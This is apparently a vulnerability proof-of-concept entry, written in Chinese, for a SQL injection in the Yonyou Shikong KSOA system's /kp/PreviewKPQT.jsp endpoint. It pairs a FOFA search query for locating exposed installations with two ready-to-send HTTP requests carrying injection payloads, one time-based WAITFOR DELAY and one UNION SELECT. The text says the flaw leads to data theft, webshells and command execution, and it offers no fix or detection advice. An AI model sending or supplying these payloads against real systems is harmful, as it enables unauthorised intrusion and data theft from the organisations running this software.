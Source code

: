 # 用友时空KSOA系统接口PreviewKPQT.jsp存在SQL注入漏洞

用友时空KSOA接口 `/kp/PreviewKPQT.jsp` 接口存在SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

## fofa

```yaml
app="用友-时空KSOA"
```

## poc

```yaml
GET /kp/PreviewKPQT.jsp?KPQTID=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```

```java
GET /kp/PreviewKPQT.jsp?KPQType=KPQT&KPQTID=1%27+union+select+sys.fn_varbintohexstr(hashbytes(%27md5%27,%27test%27)),2,3+--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```

